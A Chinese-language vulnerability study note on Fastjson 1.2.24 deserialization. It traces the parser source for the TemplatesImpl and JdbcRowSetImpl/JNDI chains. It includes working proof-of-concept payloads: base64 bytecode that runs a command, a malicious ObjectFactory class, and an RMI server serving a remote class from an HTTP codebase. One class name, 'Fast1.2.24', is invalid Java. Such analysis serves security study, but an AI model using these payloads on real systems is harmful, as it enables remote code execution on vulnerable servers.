

一篇很好的文章:Fastjson反序列化流程https://paper.seebug.org/994/

一些基础的东西网上挺多,简单说一下

## 序列化

### 非自省

`public static String toJSONString(Object object)`

在序列化时， FastJson 会调⽤成员对应的 get ⽅法，被 private 修饰且没有 get ⽅法的成

员不会被序列化，被 public 修饰的成员都会被序列化，

### 自省

序列化时传⼊类型信息 `SerializerFeature.WriteClassName` ，可以得到能表明对象类型的 JSON ⽂本。

## 反序列化

### 非自省

`public static <T> T parseObject(String text, Class<T> clazz)`

需要传入claszz,指明你需要反序列化的是哪个一个类。反序列化时将调用了String类型成员的setter。public成员被赋值,其他成员为NULL.还有一些满足额外条件的getter

### 自省

`public static <T> T parseObject(String text)`

调用全部getter和setter满⾜条件额外的getter

`parse(String text)` 

和非自省的情况一样


#### Feature.SupportNonPublicField

对于没有`set`方法的`private`成员,反序列化时传入`Feature.SupportNonPublicField`即可完成赋值

[Fastjson反序列化漏洞利用的三个细节](https://mp.weixin.qq.com/s/C1Eo9wst9vAvF1jvoteFoA)

# TemplatesImpl利用链

FastJson在 1.2.22 - 1.2.24 版本中存在反序列化漏洞，主要原因FastJson⽀持的两个特性:

- fastjson反序列化时，JSON字符串中的 @type 字段，⽤来表明指定反序列化的⽬标恶意对象类。
- fastjson反序列化时，字符串时会⾃动调⽤恶意对象的构造⽅法， setter ⽅法， getter ⽅法,若这类⽅法中存在利⽤点，即可完成漏洞利⽤。

```java
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;

public class Fast1.2.24 {
    public static void main(String[] args) {
        String payload = "{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\",\"_bytecodes\":[\"yv66vgAAADQAJgoABwAXCgAYABkIABoKABgAGwcAHAoABQAXBwAdAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEACkV4Y2VwdGlvbnMHAB4BAAl0cmFuc2Zvcm0BAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWBwAfAQAEbWFpbgEAFihbTGphdmEvbGFuZy9TdHJpbmc7KVYHACABAApTb3VyY2VGaWxlAQAKcG9jXzEuamF2YQwACAAJBwAhDAAiACMBAARjYWxjDAAkACUBAAVwb2NfMQEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQATamF2YS9sYW5nL0V4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAFAAcAAAAAAAQAAQAIAAkAAgAKAAAALgACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAABAAsAAAAOAAMAAAAJAAQACgANAAsADAAAAAQAAQANAAEADgAPAAEACgAAABkAAAAEAAAAAbEAAAABAAsAAAAGAAEAAAAOAAEADgAQAAIACgAAABkAAAADAAAAAbEAAAABAAsAAAAGAAEAAAARAAwAAAAEAAEAEQAJABIAEwACAAoAAAAlAAIAAgAAAAm7AAVZtwAGTLEAAAABAAsAAAAKAAIAAAATAAgAFAAMAAAABAABABQAAQAVAAAAAgAW\"],'_name':'c.c','_tfactory':{},\"_outputProperties\":{},\"_name\":\"a\",\"_version\":\"1.0\",\"allowedProtocols\":\"all\"}";
        JSON.parseObject(payload, Feature.SupportNonPublicField);
    }
}
```

梳理一下逻辑,首先我们会传入我们的序列化字符串;然后会解析出它的key,并将value赋值给key,如果存在对应的getkey或者setkey,则会调用get或者set方法.而在TemplatesImpl利用链中,是可以通过调用getOutputProperties方法进行命令执行的。所以我们让我们的@type为com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl,然后再传入key为outputProperties,即可触发命令。但是这条链子在实际情况中是很难利用的,因为再TemplatesImpl中的很多成员是私有的,所以我们在用parseObject进行反序列化时需要开启Feature.SupportNonPublicField,但实际环境中很难遇到这种情况的

# JSON#parse

首先进入JSON.class


跟进去:


这里调用了ParserConfig并初始化了配置信息

## ParserConfig#parserConfig


接着进行了DefaultJSONParser的初始化

## DefaultJSONParser#DefaultJSONParser


这里创建了JSONScanner实例,JSONScanner我的个人理解应该是存放一些我们的反序列化字符串的信息的

### JSONScanner#JSONScanner


JsonScanner:https://citrusice.github.io/posts/fastjson-serialization-analisys/

### DefaultJSONParser#DefaultJSONParser


这里的lexer就是之前传入的实例,然后ch为当前的第一个字符串,这时为`{`,设置token为12,接着回到com.alibaba.fastjson.JSON#parse

# JSON#parse


跟进去,它会读取我们的token,因为我们的token为12,进入case 12,调用了parseObject方法

## DefaultJSONParser#parse


### DefaultJSONParse#parseObject


这里有一个scanSymbol函数,scanSymbol 函数从 JSON ⽂本中解析出 `@type` 键名

接着又会进入if语句:


这里通过scanSymbol解析出@type的值,也就是我们的classname,然后进入TypeUtils类

#### TypeUtils#loadClass


这里会先从mappings中取出我们的className,但是map中是没有该key的,clazz=null,进入else语句,然后classLoader为null,继续往下走


这里获取一个AppClassLoader,并且通过反射获取到了我们的TemplatesImpl类,这里还将我们的类put到了mappings中,返回Clazz,接着回到了`com.alibaba.fastjson.parser.DefaultJSONParse#parseObject`

### DefaultJSONParse#parseObject


将 clazz 传⼊ config.getDeserializer ,这里是根据type获取对应的`derializer`并且调用`derializer.deserialze`进行处理。跟进去看看

#### ParserConfig#getDeserializer


这里会判断我们的derializers中是否存在type,如果没有,在判断type是否是属于class接口。

这里我们进入了else if语句,构造我们的Deserializer

#### ParserConfig#getDeserializer

跟进去一直走,走到这里的关键位置


当不匹配上面的情况时,调用`createJavaBeanDeserializer`来创建一个新的`derializer`,并将其加入到`deserializers`这个map中

##### ParserConfig#creatJavaBeanDeserializer

接下来跟进`createJavaBeanDeserializer`的处理流程,这里关键的地方是:


进去

###### ParserConfig#JavaBeanInfo  build


这里会通过反射的方法获得该类的成员,方法,构造器,接着会进入三个for循环,循环筛选出符合条件的get,Set⽅法存⼊ fieldList


满⾜条件的 setter ：

- 函数名⻓度⼤于 4 且以 set 开头
- ⾮静态函数
- 返回类型为 void 或当前类
- 参数个数为 1 个

满⾜条件的 getter ：

- 函数名⻓度⼤于等于 4
- ⾮静态⽅法
- 以 get 开头且第 4 个字⺟为⼤写
- ⽆参数
- 返回值类型继承⾃ Collection 或 Map 或 AtomicBoolean 或 AtomicInteger 或 AtomicLong

可以看到有三个符合条件，最后作为参数传⼊ JavaBeanInfo 类的实例


接着回到上层

#### ParserConfig#getDeserializer



这里将我们的type和derializer注册到了derializers这个map中

回到上层:

### DefaultJSONParse#parseObject


#### JavaBeanDeserializer#deserialze

进⼊关键的方法deserializer.deserialze.进入label1009对我们的payload进行遍历,这里先遍历出了我们的第一个key:\_bytecodes


走到这里时首先会把我们的"_bytecodes"取出

到下面会将我们的key传入parseField


##### JavaBeanDeserializer#parseField

这里有一个smartMatch方法,会处理我们的键名


###### JavaBeanDeserializer#smartMatch


继续跟

###### JavaBeanDeserializer#getFieldDeserializer


该函数会将我们的key与之前筛选出来的三个方法名称比较,因为我们这里不符和,所以说返回null。


接着这里将_替换成了空,其实在payload中这里不要\_也是可以的。

###### JavaBeanDeserializer#smartMatch


因为之前去掉了\_时把snakeOrkebab设置为了true,这里又进行了一次getFieldDeserializer判断,这个snakeOrkebab就是为了应对不同的命名方式的,这里fieldDeserializer依旧返回为null

回到上层

##### JavaBeanDeserializer#parseField


这里会获得我们的恶意类中的成员,如果成员的类型不为STATIC或FINAL,则会将他们put到`extraFieldDeserializers`中


这里取出了field,我们的field只是Field类型,所以不会进入if语句,进入else语句,创建DefaultFieldDeserializer实例,并将其put进去

接着调用parseField方法


###### DefaultFieldDeserializer#parseField


然后调用`fieldValueDeserilizer.deserialze` 函数对 _bytecodes 进⾏ base64 解码并赋值给

value ，这就是为什么POC中的 _bytecodes 包含的字节码需要 base64 编码。

`com.alibaba.fastjson.parser.JSONScanner#bytesValue`


调用栈               :      

```java
decodeBase64:478, IOUtils (com.alibaba.fastjson.util)
bytesValue:112, JSONScanner (com.alibaba.fastjson.parser)
deserialze:136, ObjectArrayCodec (com.alibaba.fastjson.serializer) [2]
parseArray:723, DefaultJSONParser (com.alibaba.fastjson.parser)
deserialze:177, ObjectArrayCodec (com.alibaba.fastjson.serializer) [1]
parseField:71, DefaultFieldDeserializer
(com.alibaba.fastjson.parser.deserializer)
parseField:773, JavaBeanDeserializer
(com.alibaba.fastjson.parser.deserializer)
deserialze:600, JavaBeanDeserializer
(com.alibaba.fastjson.parser.deserializer)
deserialze:188, JavaBeanDeserializer
(com.alibaba.fastjson.parser.deserializer)
deserialze:184, JavaBeanDeserializer
(com.alibaba.fastjson.parser.deserializer)
parseObject:368, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1327, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1293, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:137, JSON (com.alibaba.fastjson)
parse:193, JSON (com.alibaba.fastjson)
parseObject:197, JSON (com.alibaba.fastjson)
main:13, Fast1.2.24
```

接着回到DefaultFieldDeserializer#parseField()

###### DefaultFieldDeserializer#parseField


这里调用了setValue方法对\_bytecodesv进行赋值

###### FieldDeserializer#setValue

对我们的\_bytecodes的操作就完成了,接下来重新回到JavaBeanDeserializer#deserialze中

#### JavaBeanDeserializer#deserialze

接着对`_name`和`_tfactory`同样进行了赋值操作。接下来是另外一个重点`_outputProperties`,该成员和前面几个不一样,它是属于那三个特殊方法的,前面的都一样,然后来到了我们的JavaBeanDeserializer#smartMatch中

##### JavaBeanDeserializer#parseField

###### JavaBeanDeserializer#smartMatch


这里面有getFieldDeserializer方法,会判断我们传入的key是否与三个特殊方法的名称相同,如果不一样,又会进行一系列替换操作等等,再进行判断


这里去掉了\_ 将snakeOrkebab设置为了true,重新进行一次判断


###### JavaBeanDeserializer#getFieldDeserializer


这里返回了fieldDeserializer,就没有之前那些构造fieldDeserializer的步骤了

#### JavaBeanDeserializer#parseField


##### DefaultFieldDeserializer#parseField

然后进去setValue方法


##### FieldDeserializer#setValue

这里跟之前几种不同的是method是被赋值了的


进入if语句


调用了invoke方法,成功执行,调用了getOutputProperties方法,接着就是TemplatesImpl链的知识了

# JNDI利用链

由于是利用JNDI注入漏洞来触发的，因此主要的限制因素是JDK版本。

基于RMI利用的JDK版本<=6u141、7u131、8u121，基于LDAP利用的JDK版本<=6u211、7u201、8u191。

## 实验环境:

- JDK1.7
- Fastjson1.2.24

## 实验代码:

恶意类:

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.IOException;
import java.io.Serializable;
import java.util.Hashtable;
public class Exploit implements ObjectFactory, Serializable {
    public Exploit() {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    public static void main(String[] args) {
        Exploit exploit = new Exploit();
    }
    public Object getObjectInstance(Object obj, Name name, Context nameCtx,
                                    Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}  //将编译好的class文件放到web界面下,这里用的8000端口

```

JNDI服务端:

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.Registry;
import java.rmi.registry.LocateRegistry;
public class JNDIServer {
    public static void main(String[] args) throws RemoteException,
            NamingException, AlreadyBoundException {
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference Exploit = new Reference("Exploit", "Exploit",
                "http://127.0.0.1:8000/");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(Exploit);
        registry.bind("Exploit", refObjWrapper);
        System.out.println("success!!!");
    }
}     运行
```

实验代码:

```java
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.rowset.JdbcRowSetImpl;
import com.alibaba.fastjson.JSON;
import com.sun.rowset.JdbcRowSetImpl;
/***
public class Fast1.2.24 {
    public static void main(String[] args) {
        String payload = "{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\",\"_bytecodes\":[\"yv66vgAAADQAJgoABwAXCgAYABkIABoKABgAGwcAHAoABQAXBwAdAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEACkV4Y2VwdGlvbnMHAB4BAAl0cmFuc2Zvcm0BAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWBwAfAQAEbWFpbgEAFihbTGphdmEvbGFuZy9TdHJpbmc7KVYHACABAApTb3VyY2VGaWxlAQAKcG9jXzEuamF2YQwACAAJBwAhDAAiACMBAARjYWxjDAAkACUBAAVwb2NfMQEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQATamF2YS9sYW5nL0V4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAFAAcAAAAAAAQAAQAIAAkAAgAKAAAALgACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAABAAsAAAAOAAMAAAAJAAQACgANAAsADAAAAAQAAQANAAEADgAPAAEACgAAABkAAAAEAAAAAbEAAAABAAsAAAAGAAEAAAAOAAEADgAQAAIACgAAABkAAAADAAAAAbEAAAABAAsAAAAGAAEAAAARAAwAAAAEAAEAEQAJABIAEwACAAoAAAAlAAIAAgAAAAm7AAVZtwAGTLEAAAABAAsAAAAKAAIAAAATAAgAFAAMAAAABAABABQAAQAVAAAAAgAW\"],'_name':'c.c','_tfactory':{},\"_outputProperties\":{},\"_name\":\"a\",\"_version\":\"1.0\",\"allowedProtocols\":\"all\"}";
        JSON.parseObject(payload, Feature.SupportNonPublicField);
    }
}
***/

public class Fast1.2.24 {
    public static void main(String[] args) {
        String PoC = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://localhost:1099/Exploit\", \"autoCommit\":true}";
       
        JSON.parse(PoC);
    }
}
```

运行后弹出计算器

## 利用链分析:

先看看poc

- @type ：指定恶意利⽤类为 com.sun.rowset.JdbcRowSetImpl
- dataSourceName ：指定 RMI / LDAP 恶意服务器，并调⽤ setDataSourceName 函数
- autoCommit ：调⽤ setAutoCommit 函数。

这里先去看setDataSourceName

### setDataSourceName


这里会先判断DataSourceName是否为null,如果为null,则调用父类的setDataSourceName方法


这里对dataSource进行了赋值

调用ProperyChangeSupport#firePropertyChange,进行一些赋值,只不过这里好像并不重要


### setAutoCommit


进入connect函数


这里因为刚刚对DataSource进行了赋值,所以成功进入else if语句

然后这里有一个明显的JNDI注入

调⽤ lookup 函数，参数可控且为 DataSource


此时受害者扮演 RMI 客户端，加载远程恶意类，完成命令执⾏。

# 参考链接:

https://paper.seebug.org/1192/#fastjson

https://zhuanlan.zhihu.com/p/356650590

https://citrusice.github.io/posts/fastjson-serialization-analisys/

http://xxlegend.com/2017/12/06/%E5%9F%BA%E4%BA%8EJdbcRowSetImpl%E7%9A%84Fastjson%20RCE%20PoC%E6%9E%84%E9%80%A0%E4%B8%8E%E5%88%86%E6%9E%90/

https://qiita.com/Y4er/items/f2fbd0df3d59b6aa4ee2#1225-1241

https://www.kingkk.com/2019/07/Fastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-1-2-24-1-2-48/

https://paper.seebug.org/994/

